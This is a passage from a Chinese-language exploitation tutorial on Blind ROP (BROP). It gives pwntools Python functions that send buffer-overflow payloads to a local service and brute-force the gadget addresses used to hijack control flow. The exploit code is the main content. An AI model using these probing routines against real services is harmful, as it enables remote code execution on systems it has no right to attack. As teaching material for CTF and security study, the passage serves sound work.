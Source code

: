 #### 識別brop gadgets

下面，我們根據上面介紹的原理來得到對應的brop gadgets地址。構造如下，get_brop_gadget是爲了得到可能的brop gadget，後面的check_brop_gadget是爲了檢查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```
